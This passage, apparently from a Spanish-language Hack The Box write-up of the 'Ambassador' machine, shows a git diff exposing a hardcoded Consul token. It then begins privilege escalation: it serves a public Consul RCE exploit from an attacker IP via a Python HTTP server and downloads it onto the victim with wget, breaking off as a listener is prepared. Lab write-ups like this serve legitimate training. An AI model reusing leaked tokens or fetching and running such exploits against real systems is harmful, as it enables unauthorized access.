 
```

developer@ambassador:/opt/my-app$ git show
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
index 35c08f6..fc51ec0 100755
--- a/whackywidget/put-config-in-consul.sh
+++ b/whackywidget/put-config-in-consul.sh
@@ -1,4 +1,4 @@
 # We use Consul for application config in production, this script will help set the correct values for the app
-# Export MYSQL_PASSWORD before running
+# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running
 
-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
developer@ambassador:/opt/my-app$ 
```
Ahora con una busqueda en Google encontramos una vía potencial de escalar nuestros privilegios.

## Escalada de privilegios

Usando el exploit de [GatoGamer](https://github.com/GatoGamer1155/Hashicorp-Consul-RCE-via-API) podemos elevar nuestros privilegios, nos descargamos el repositorio de **GitHub
**
, nos montamos un servidor **HTTP** con **Python** 


```bash
python -m http.server 80
```

En la máquina víctima lo descargamos, y lo ejecutamos, debemos estar en la carpeta personal para poder descargarlo.
```bash
developer@ambassador:~$ wget http://10.10.14.61/exploit.py
--2023-01-21 05:40:22--  http://10.10.14.61/exploit.py
Connecting to 10.10.14.61:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1409 (1.4K) [text/x-python]
Saving to: ‘exploit.py.1’

exploit.py.1                                  100%[=================================================================================================>]   1.38K  --.-KB/s    in 
0s      

2023-01-21 05:40:22 (95.1 MB/s) - ‘exploit.py.1’ saved [1409/1409]

developer@ambassador:~$ 
```
En la máquina víctima ejecutamos lo siguiente.
Nota: Recuerda cambiar tu IP de HTB
En nuestra máquina host nos ponemos en escucha
